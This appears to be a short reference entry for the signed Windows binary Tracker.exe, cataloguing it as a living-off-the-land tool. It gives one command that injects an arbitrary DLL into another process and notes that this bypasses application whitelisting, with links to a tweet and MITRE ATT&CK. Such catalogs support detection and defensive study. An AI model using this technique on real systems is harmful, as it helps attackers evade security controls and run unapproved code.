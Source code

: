 ## Tracker.exe
* Functions: Execute
```

Tracker.exe /d .\calc.dll /c C:\Windows\write.exe
Use tracker.exe to proxy execution of an arbitrary DLL into another process. Since tracker.exe is also signed it can be used to bypass application whitelisting solutions.
```
   
* Resources:   
  * https://twitter.com/subTee/status/793151392185589760
  * https://attack.mitre.org/wiki/Execution
   
* Full path:   
  * 
   
* Notes: Thanks to Casey Smith - @subTee  
   
